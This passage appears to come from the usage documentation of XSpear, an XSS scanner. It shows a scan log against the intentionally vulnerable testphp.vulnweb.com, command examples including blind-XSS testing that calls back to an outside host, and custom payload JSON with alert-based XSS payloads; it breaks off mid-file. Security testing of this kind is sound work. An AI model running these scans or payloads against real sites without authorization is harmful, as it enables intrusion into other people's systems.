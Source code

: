 ```
{"accept-encoding"=>["gzip;q=1.0,deflate;q=0.6,identity;q=0.3"], "accept"=>["*/*"], "user-agent"=>["Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0"], "connection"=>["keep-alive"], "host"=>["testphp.vulnweb.com"]}
[ Response ]
{"server"=>["nginx/1.4.1"], "date"=>["Sun, 29 Dec 2019 13:54:36 GMT"], "content-type"=>["text/html"], "transfer-encoding"=>["chunked"], "connection"=>["keep-alive"], "x-powered-by"=>["PHP/5.3.10-1~lucid+2uwsgi2"]}
[H] [22:57:33] [200/OK] reflected <keygen autofocus onfocus=alert(45)>[param: cat][reflected onfocus XSS Code]
...
you see report
```
### Case by Case
**Scanning XSS**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -d "searchFor=yy"
```

**Only JSON output**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -d "searchFor=yy" -o json -v 0
```

**Set scanning thread**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -t 30
```

**Testing at selected parameters**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query&cat=123&ppl=1fhhahwul" -p cat,test
```

**Testing at all parameters**<br>
(This option is tested with or without reflection.)
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query&cat=123&ppl=1fhhahwul" -a
```

**Testing Only parameter analysis (aka no-xss mode)**<br>
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query&cat=123&ppl=1fhhahwul" --no-xss
```

**Testing blind xss(all params)**<br>
(Should be used as much as possible because Blind XSS is everywhere)<br>
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -b "https://hahwul.xss.ht" -a

# Set your blind xss host. <-b options>
```

**Testing custom payload**<br>
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" --custom-payload=custom_payload.json 
```
in custom_payload.json file
```json
[
  {
    "payload":"<svg/onload=alert(1)>",
    "callback":"P1",
    "descript":"blahblah~"
  },
  {
    "payload":"<svg/onload=alert(1)>",
    "callback":"P2",
    "descript":"blahblah~"
```